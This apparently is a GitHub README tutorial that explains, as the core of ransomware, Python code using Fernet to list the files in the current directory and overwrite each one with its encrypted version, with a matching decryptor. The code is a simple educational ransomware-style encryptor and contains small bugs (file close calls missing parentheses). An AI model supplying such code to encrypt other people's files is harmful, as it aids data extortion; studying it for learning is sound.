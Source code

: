 # Basic Python Encryption/Decryption

At the root of ransomware is encryption and decryption. Threat actors encrypt a victim's data and hold it for ransom in hopes of a payout. Victims of ransomware, on the other hand, hope for their files to be decrypted after paying up.  

Below is a breakdown of how simple, at its core, file encryption and decryption can be.

## Generating a list of files to encrypt/decrypt

By utilizing python's built-in ```os``` module to access operating system dependent functionality, creating a list is as simple as importing the module and looping through a list of files and directories in either the current or specified directory. Due to the current limitations of this program, it's important to note that certain files will require exclusion (e.g. encrypt.py, decrypt.py, and key.key).

```py
import os

file_list = []

def generate_file_list():
    for file in os.listdir():
            if file == "encrypt.py" or file == "key.key" or file == "decrypt.py":
                continue
            if os.path.isfile(file):
                file_list.append(file)
```
The above snippet of code defines a function which generates a file list by looping through the objects in the directory that the program was run in and appending any files found to the ```file_list``` variable.

Given the scope of this program, it's important to note that a check must be done for whether an object in a given directory is a file or another directory itself before adding it to the file list (further study should include how to handle walking up and down directories to encrypt/decrypt their contents).

## Encrypting a list of files

This project makes use of pyca's ```cryptography``` package to encrypt files. For official documentation, visit their **[website](https://cryptography.io)**. You can install ```cryptography``` with:

```
$ pip install cryptography
```

For complete installation instructions, read their **[docs](https://cryptography.io/en/latest/installation/)**.

The ```cryptography``` package makes use of symmetric encryption, so you only have to generate a single key. Doing so requires importing ```Fernet``` from ```cryptography.fernet```. This program begins by generating a key and storing it in a key file in the current directory. While this isn't a secure method of storing a key, it works for the project's purposes.

```py
from cryptography.fernet import Fernet

def generate_encryption_key():
    key = Fernet.generate_key()

    key_file = open("key.key", "wb")
    key_file.write(key)
    key_file.close()

```

Before any encryption occurs, however, it's important to check that you have a key, and doing so is simple with the ```os``` module.

```py
key_path = "./key.key"

def check_key():
    return os.path.isfile(key_path)
```

File encryption requires reading from and writing to files. We can start with creating a ```Fernet``` object to encrypt the files themselves and then looping through our file list, reading their contents, storing their contents in a variable, encrypting the variable, and overwriting the file's contents with the newly encrypted data (it's important to close the files that you open in order to free the file for any further operations you might perform on them).

```py
def encrypt_files():
    key_file = open("key.key", "rb")
    f = Fernet(key_file.read())
    key_file.close

    for file in file_list:
        file_to_encrypt = open(file, "rb")
        file_contents = file_to_encrypt.read()
        file_to_encrypt.close
        file_to_encrypt = open(file, "wb")
        file_to_encrypt.write(f.encrypt(file_contents))
        file_to_encrypt.close
```

## Putting the encryption program together

The program itself is simple and simply generates a file list, checks whether the key exists or not, and encrypts the files if there is no previously generated key (this is a simple way of preventing multiple rounds of encryption).

```py
generate_file_list()

if check_key():
    print("Key already found.")
    print("Files previously encrypted.")
else:
    print("Key not found.")
    generate_encryption_key()
    encrypt_files()
```
## A quick note on file decryption

Decryption utilizes the same key, so generating a new key isn't required. However, checking that a key exists is, so the decryption program is nearly identical to the encryption program. A simple switch from ```f.encrypt``` to ```f.decrypt``` will get the job done.

The program itself is just as simple as the encryption program. The major difference is deleting the key once the files have been decrypted (simply for demo purposes).

```py
generate_file_list()

if check_key():
    print("Key found.")
    decrypt_files()
    os.remove(key_path)
    print("Key destroyed.")
else:
    print("Key not found.")
    print("Cannot decrypt without key.")
```

## Further developments

This isn't the way to encrypt your files safely. Ensuring that you're properly storing your key is paramount to keeping your files' confidentiality and integrity secure. Further study needs to go into properly storing the key. Just as important is trying to determine whether or not something was previously encrypted in order to prevent unwanted encryption.